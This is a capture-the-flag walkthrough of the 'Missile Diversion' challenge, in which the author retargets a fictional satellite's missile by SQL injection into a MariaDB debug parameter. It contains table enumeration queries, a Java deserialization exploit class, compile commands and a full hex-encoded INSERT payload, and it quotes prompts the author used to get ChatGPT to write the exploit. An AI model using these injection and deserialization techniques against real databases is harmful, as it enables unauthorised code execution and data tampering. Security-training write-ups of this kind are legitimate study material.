

# Missile Diversion

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [Objective5.zip](https://.../)

## Objective

!!! question "Request"
    Thwart Jack's evil plan by re-aiming his missile at the Sun. 

??? quote "Wombley Cube"
    Wombley thinks you are a Saboteur <br/>

## Hints

??? tip "Always Lock Your Computer"
    Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.

## Solution

Gator is your friend in this challenge. She/he will help you re-set the server by "time travelling" if you mess something up in the server. 

Now we can launch the Missle-targeting-system same way as we launch the Camera: 

We then log into the Missle-targeting-system at address: 

```maltcp://10.1.1.1:1026/missile-targeting-system-Directory```

In Action service, we submitAction for Debug action. Under Parameter service, we can observe PointingMode, X and Y coordinates and Debug, 4 strings. 


From debug, we know the database (DB) is of Maria DB, do we need to do some SQL injections to solve this challenges? 

We know ```VERSION{}: 11.2.20-MariaDB-1:11.2.2+Maria~ubu2204``` is response from:
```SELECT VERSION();```

We can use: 
```; show grants```


From the response, we can observe that we have SELECT permission on majority of DBs, but not UPDATE privilege on pointing_mode, which is the table we want to manipulate to change the sta from pointing the earth to pointing the sun! The target_coordinate will automatically change if we change the pointing_mode. But how? We need to enumerate more tables and columns: 

We fire up Wireshark and use submitAction and put the following SQL query into parameters and then submit. We switch to Parameter service and click Get Value on Debug parameters.

```
; SELECT * FROM `missile_targeting_system`.`satellite_query`
```

Then we save the PCAP file and view it as previously in Camera Access challenge with:

```ip.addr == 10.1.1.1 && tcp.port == 1025```

And follow TCP stream: 


```
jid: 1 | object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java | results: import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}

```
The response with jid = 1 contains a serialized Java object class. It indicates a vulnerability of DB namely "Remote Code Execution via Java Deserialization of Stored Database Objects" (Deserialization of Untrusted Data), if you rememebr from Reportinator challenge, section-3. 

We only need to change the constructor and send the binary as hexdecimal values to the server via SQL injection. The server will deserialized the object and update the values. The Java class will execute the SQL query we passed on. 

Let’s try some enumerations: 

```
-- To select all data from the pointing_mode table
; SELECT * FROM `missile_targeting_system`.`pointing_mode`

Return: id: 1 | numerical_mode: 0 |
```

```
-- To select all data from the messaging table
; SELECT * FROM `missile_targeting_system`.`messaging`
```




```
-- To select all data from the target_coordinates table
; SELECT * FROM `missile_targeting_system`.`target_coordinates`

Return values: | id: 1 | lat: 1.14514 | lng: -145.262 | 
```

```
-- To select all data from the pointing_mode_to_str table
; SELECT * FROM `missile_targeting_system`.`pointing_mode_to_str`
```


```
; SELECT * FROM `missile_targeting_system`.`satellite_query`
; SHOW COLUMNS FROM missile_targeting_system.satellite_query;
; DESCRIBE missile_targeting_system.satellite_query;
```


We now can deduce the following UPDATE command we want to execute to update the pointing_mode: 

```; UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1```

Query via Debug submitAction was denied with no surprise. 

I asked ChatGPT to write me a Java script. 

Prompt: 
```
Our DB: missile_targeting_system
Our Table: pointing_mode
Columns: id, numerical_mode

In this CTF the server can deserialize any object inserted into the object column. Can you craft a serializable object that will update the pointing mode "; UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1"?
```

```
How to INSERT the “serialized object data” to the table satellite_query in database missile targeting_system? We also need to use UNHEX() to make sure it was decoded when the server received it. 
```

We now have working Java script: 

```bash linenums="1" hl_lines="7" title="Just Java Code"
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class SerializeExploit {
    public static void main(String[] args) {
        SatelliteQueryFileFolderUtility exploitObject = new SatelliteQueryFileFolderUtility(
            "UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1;",
            true,
            true
        );

        try {
            // Serialize the object to a byte array
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(exploitObject);
            oos.close();
            
            // Convert the byte array to a hex string
            byte[] byteArray = baos.toByteArray();
            String hexString = bytesToHex(byteArray);
            System.out.println(hexString);
            
        } catch (IOException i) {
            i.printStackTrace();
        }
    }

    // Helper method to convert byte array to hex string
    private static String bytesToHex(byte[] bytes) {
        StringBuilder hex = new StringBuilder();
        for (byte b : bytes) {
            hex.append(String.format("%02X", b));
        }
        return hex.toString();
    }
}
```

We can name it as ```SerializeExploit``` and compile it with the Java class: 
```
javac SerializeExploit.java -cp ".:gson-2.8.0.jar"
```
Run it: 
```
java -cp ".:gson-2.8.0.jar" SerializeExploit
```
We get a hex string. We attach the hex string to our SQL commands: 

```
; INSERT INTO missile_targeting_system.satellite_query (jid, object, results) VALUES (7, UNHEX('ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174005A55504441544520606D697373696C655F746172676574696E675F73797374656D602E60706F696E74696E675F6D6F6465602053455420606E756D65726963616C5F6D6F646560203D20312057484552452060696460203D20313B'), ' ');
```

We can send this SQL command by click submitAction on Debug row and select Edit and put the command as AttributeValue value and click submit. 

After submission, we can check whether our command has been inserted by query object: 
```
; SELECT results FROM missile_targeting_system.satellite_query;
; SELECT object FROM missile_targeting_system.satellite_query;

```
And we can check if the pointing_mode is point to the sun by: 

```
; SELECT * FROM `missile_targeting_system`.`pointing_mode`
```
If we see ```numerical_mode = 1``` from the Parameter service --> Debug --> getValue
, it means we have successfully disrupted Jack's evil plan. Well done you! 


Yes! We got it, now the satellite is aiming at the sun. We can click the camera to the right of Gator to watch a short video. 


!!! success "Answer"
    You saved Christmas! 

## Response

!!! quote "Wombley Cube"
    A... missile... aimed for Santa's sleigh? I had no idea... <br/>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!<br/>
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br/>
    I'll help you bring Jack to justice...<br/>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br/>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest. <br/>
    Use the door to the right to return to the resort lobby and see what happened!
    Don't worry, I'll meet you there... trust me.<br/>